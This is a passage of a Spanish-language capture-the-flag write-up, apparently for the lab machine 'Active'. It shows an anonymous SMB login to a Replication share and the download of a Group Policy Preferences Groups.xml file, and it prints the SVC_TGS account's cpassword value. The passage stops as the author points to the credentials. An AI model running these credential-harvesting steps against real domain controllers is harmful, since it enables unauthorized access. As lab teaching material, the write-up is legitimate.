 ```
smbclient //10.10.10.100/Replication -N

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Logramos conectarnos, ahora buscaremos los archivos compartidos.

Dentro del directorio `active.htb` encontramos los archivos: 

```
smb: \active.htb\> dir
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 06:37:44 2018
  Policies                            D        0  Sat Jul 21 06:37:44 2018
  scripts                             D        0  Wed Jul 18 14:48:57 2018

                5217023 blocks of size 4096. 279628 blocks available
smb: \active.htb\> 
```
Estos archivos corresponden a los encontrados en el recurso `SYSVOL`, por lo tanto, puede ser que este archivo sea una replicación del mismo. Esto es peligroso debido a que existe un archivo llamado Groups.xml que puede contener contraseñas, por lo tanto, buscaremos dentro de los directorios por si lo encontramos.

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> dir
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 16:46:06 2018
```
Tenemos suerte, encontramos el archivo, por lo tanto, lo transferimos a nuestro equipo:

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```

Al abrir el archivo encontramos lo siguiente:

```
cat Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
Si prestamos atención, podemos ver un usuario y contraseña:
